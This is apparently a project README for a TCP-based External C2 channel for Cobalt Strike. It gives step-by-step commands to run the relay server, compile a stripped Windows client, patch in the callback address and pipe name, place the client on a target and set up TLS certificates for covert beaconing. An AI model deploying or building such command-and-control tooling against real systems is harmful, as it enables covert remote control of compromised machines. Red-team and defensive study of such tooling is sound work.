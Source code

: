 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.  
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client closes the TCP connection, sleeps, then reopens the TCP connection. If there is a small sleep timer, this will result in a lot of short TCP sessions with the source port increasing. If the link/path dies during this sleep the client will timeout (after sleeping and attempting to reconnect) and the server will get stuck on accept() waiting for the client to connect back in. You will need to restart the server to use it again.
- Create certs. Server gets server-cert.pem and server-key.pem. Client gets ca-cert.pem

>openssl genrsa 2048 > ca-key.pem
>openssl req -new -x509 -nodes -days 365000 -key ca-key.pem -out ca-cert.pem
>openssl req -newkey rsa:2048 -nodes -days 365000 -keyout server-key.pem -out server-req.pem
>openssl x509 -req -days 365000 -set_serial 01 -in server-req.pem -out server-cert.pem -CA ca-cert.pem -CAkey ca-key.pem

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.

